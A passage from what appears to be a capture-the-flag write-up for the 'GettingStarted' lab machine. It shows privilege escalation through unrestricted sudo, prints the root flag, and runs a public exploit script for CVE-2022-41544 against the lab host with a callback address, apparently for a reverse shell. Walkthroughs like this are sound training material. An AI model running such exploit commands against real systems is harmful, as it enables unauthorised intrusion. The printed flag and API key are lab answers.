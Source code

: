 That user has some interesting sudo rights as well:
```
mrb3n@gettingstarted:~$ Matching Defaults entries for mrb3n on gettingstarted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on gettingstarted:
    (ALL : ALL) ALL

mrb3n@gettingstarted:~$
```

That means we can execute everything with privileged rights. To become root we can just enter:
```
mrb3n@gettingstarted:~$ sudo -i
root@gettingstarted:~# id
uid=0(root) gid=0(root) groups=0(root)
root@gettingstarted:~# 
```

### Root flag
With the root privileges, we can read out the root flag:
```
root@gettingstarted:/home/mrb3n# cd /root/
root@gettingstarted:~# ls -al 
total 32
drwx------  4 root root 4096 May  7  2021 .
drwxr-xr-x 20 root root 4096 Feb  9  2021 ..
lrwxrwxrwx  1 root root    9 Feb  9  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 Feb  9  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-------  1 root root 1663 May  7  2021 .viminfo
-rw-r--r--  1 root root   33 Feb 16  2021 root.txt
drwxr-xr-x  3 root root 4096 Feb  9  2021 snap
root@gettingstarted:~# cat root.txt 
f1fba6e9f71efb2630e6e34da6387842
root@gettingstarted:~# 
```

## Using public expolits
As mentioned before, there a two interesting public exploits. Those exploits create an unauthenticated RCE, since we were using an authenticated one.

To do so they use the api key that we found in the enumeration and the existing username `admin` to create a valid session token cookie. A pretty good explanation of the exploit can be found [here](https://www.youtube.com/watch?v=lon1uAvjdGU).

We can now either use the exploit `php/webapps/51475.py`:
```
┌──(kali㉿kali)-[~]
└─$ python /usr/share/exploitdb/exploits/php/webapps/51475.py gettingstarted.htb / 10.10.14.21:8081 admin
/usr/share/exploitdb/exploits/php/webapps/51475.py:16: DeprecationWarning: 'telnetlib' is deprecated and slated for removal in Python 3.13
  import telnetlib

 CCC V     V EEEE      22   000   22   22      4  4  11  5555 4  4 4  4
C    V     V E        2  2 0  00 2  2 2  2     4  4 111  5    4  4 4  4
C     V   V  EEE  ---   2  0 0 0   2    2  --- 4444  11  555  4444 4444
C      V V   E         2   00  0  2    2          4  11     5    4    4
 CCC    V    EEEE     2222  000  2222 2222        4 11l1 555     4    4
 
[+] the version 3.3.15 is vulnrable to CVE-2022-41544
[+] apikey obtained 4f399dc72ff8e619e327800f851e9986
```